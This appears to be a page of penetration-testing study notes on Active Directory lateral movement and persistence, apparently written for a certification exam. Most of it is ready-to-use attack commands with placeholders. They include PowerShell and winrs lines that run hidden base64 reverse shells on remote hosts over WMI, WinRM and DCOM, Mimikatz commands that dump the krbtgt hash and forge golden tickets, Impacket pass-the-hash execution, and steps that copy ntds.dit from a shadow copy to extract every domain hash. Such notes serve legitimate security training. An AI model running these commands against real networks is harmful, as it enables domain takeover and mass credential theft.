 ```yaml
---
layout: blank
pagetitle: Active Directory Lateral Movement
---
```


Lateral movement doesn't have to be used for different subnets. If we have credentials but lack rdp, lateral movement as a domain user is our friend

## WMI and WinRM

**Windows Management Instrumentation**
- Facilitates task automation via creating processes
- Uses Remote Procedure Calls (RPC) over 135 for remote access
- Abusing `wmic` (recently deprecated, but still probably good) on DMZ
	- `wmic /node:{target_IP} /user:{domain_user} /password:{password} process call create "{process}"`
	- To use with powershell, we need to turn the password into a secure string and pass a reverse shell:

```
$username = '{domain_user}';
$password = '{password}';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;

$Options = New-CimSessionOption -Protocol DCOM
$Session = New-Cimsession -ComputerName {target_IP} -Credential $credential -SessionOption $Options

$Command = 'powershell -nop -w hidden -e {reverse_shell_powershell_b64}';

Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};
```

**WinRM**
- Communicates over 5986 and 5985 with XML via HTTP/HTTPS
- Use with `winrs -r:{target_dnshostname} -u:{domain_user} -p:{password} "cmd /c {command}"` or `winrs -r:{target_dnshostname} -u:{domain_user} -p:{password} "powershell -nop -w hidden -e {reverse_shell_powershell_base64}"`
- Can also be done via powershell

```
$username = '{domain_user}';
$password = '{password}';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;

New-PSSession -ComputerName {target} -Credential $credential
Enter-PSSession {PSSession_ID_returned}
```

## PsExec
- Tool used to replace telnet-like applications and provide remote execution of processes
- From [PsTools](https://download.sysinternals.com/files/PSTools.zip)
- Requires:
	- Local Administrator
	- `ADMIN$` share available (on by default)
	- File and Printer sharing (on by default)
- `./PsExec64.exe -i  \\{dnshostname} -u {domain}\{domain_user} -p {password} cmd`

## Pass the Hash (repeat from Module 16)
- Only works for NTLM hashes (discussed in 16 - Password Attacks)
- PsExec, Passing-the-hash toolkit, and Impacket can all pass hashes
- SMB must be open
- Impacket:
	- `impacket-psexec -hashes :{hash} {DOMAIN}/{user}@{IP}` and
	- `impacket-wmiexec -hashes :{hash} {DOMAIN}/{user}@{IP}`

## Overpass the Hash
- Use an NTLM user hash to gain a full Kerberos TGT to get a TGS
- Assumes we own a server that has a domain user's hash
- This can act as `RunAs` but for a domain user's hash 
- Performed using Mimikatz
	- `sekurlsa::pth /user:{domain_user} /domain:{domain} /ntlm:{compromised_hash} /run:powershell`
- To get a Kerberos ticket, we run something in the new powershell window as jen
	- `net use \\files04`
- Once we have the ticket, we can just use PsExec to run commands on the remote systems using the compromised user
	- `PsExec.exe \\{dnshostname} powershell`
	- This only worked as the _ACTUAL_ `Administrator` local user, not just an administrative user
		- Need to be able to write to C:\Windows
		- We can just change the local Administrator user if we have an administrative user

## Pass the Ticket
- TGTs only work on the machine they're created for, whereas TGSs offer flexibility
- Export current in-memory tickets with `sekurlsa::tickets /export`
	- This exports all tickets in `.kirbi` format in the same file directory, ls to find the ticket names (among other info)
	- We can then pick the desired ticket by passing the ticket name
		- `kerberos::ptt {ticket_name}`
	- If using these to access file shares, running something like `ls \\web04\` will just give an error. Type `ls \\web04\` and press tab (or just `Find-DomainShare` with PowerView)

## DCOM
- Good for lateral movement
- Exploits the Distributed Component Object Model (DCOM)
	- Used for creating software components that interact with each other
	- Local administrator access required
- Lateral movement attacks documented by [cybereason](https://www.cybereason.com/blog/dcom-lateral-movement-techniques)
- Performed using built-in CreateInstance
	- `$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","{target_IP}"))` 
	- `$dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"{powershell -nop -w hidden -e {reverse_shell_powershell_base64}}","7")`

## SMB
- `net view //{dnshostname or IP} /all`

## Persistence
- Not exactly tested by the exam, but shells can be flaky and these can help

**Golden Ticket**
- Trying to get the KDC's secret key to create self-made tickets for any service on the system
- Requires full control over the DC or a being part of a Domain Admin group
	- Or, requires krbtgt hash
- Dump `krbtgt` NTLM hash with mimikatz
	- `lsadump::lsa /patch`
- After grabbing the hash, from any domain user:
	- `kerberos::purge` to delete any existing tickets
	- `kerberos::golden /user:{domain_user} /domain:{domain} /sid:{domain_SID} /krbtgt:{krbtgt_NTLM_hash} /ptt`
		- The `domain_SID` can be gathered from whoami /user
- This will essentially give the domain user Domain Admin privileges
	- `PsExec.exe \\{domain_controller_dnshostname} powershell`
		- Can't use the IP of the DC, as that will resort to NTLM
		
**Shadow Copies**
- Volume Shadow Service is a Microsoft backup technology that allows creation of snapshots
- As a domain admin, we can create a shadow copy and extract the NTDS.dit database file
- Installed from [here](https://www.microsoft.com/en-us/download/details.aspx?id=23490)
- Run `vshadow.exe -nw -p C:`
- Then copy the Database from the shadow copy to the C: folder
	- `copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit c:\ntds.dit.bak`
- Then, save the SYSTEM hive with `reg.exe save hklm\system c:\system.bak`
- We can now access all NTLM hashes and Kerberos keys using `impacket-secretsdump`
	- `impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL`